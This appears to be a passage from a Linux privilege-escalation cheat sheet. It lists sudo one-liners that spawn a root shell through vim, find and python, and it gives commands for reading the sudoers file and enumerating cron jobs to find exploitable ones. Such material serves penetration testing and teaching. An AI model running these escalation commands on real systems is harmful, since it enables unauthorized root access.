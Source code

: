 ### Check Sudo Permissions
```bash
sudo -l
```

### Exploit Sudo Rules
For each command the user can run as sudo, check [GTFOBins](https://gtfobins.github.io/) for exploitation methods.

Example exploits:
```bash
# Example: If allowed to run vim as sudo
sudo vim -c ':!/bin/sh'

# Example: If allowed to run find as sudo
sudo find . -exec /bin/sh \; -quit

# Example: If allowed to run python as sudo
sudo python -c 'import os; os.system("/bin/sh")'

# Example: If allowed to run all commands as sudo with NOPASSWD
sudo su -
```

### Sudoers File Misconfigurations
```bash
# If you can read the sudoers file:
cat /etc/sudoers

# Check for world-writable sudoers file (rare but possible):
ls -la /etc/sudoers
```

## Cron Jobs

### List Scheduled Cron Jobs
```bash
# System-wide crontab
cat /etc/crontab

# User crontabs
crontab -l
ls -la /var/spool/cron/crontabs/

# Check other cron directories
ls -la /etc/cron*
```

### Look for Exploitable Jobs
Check if any cron job:
1. Runs a script that you can modify
2. Runs a script that uses wildcards
3. Has incorrect permissions
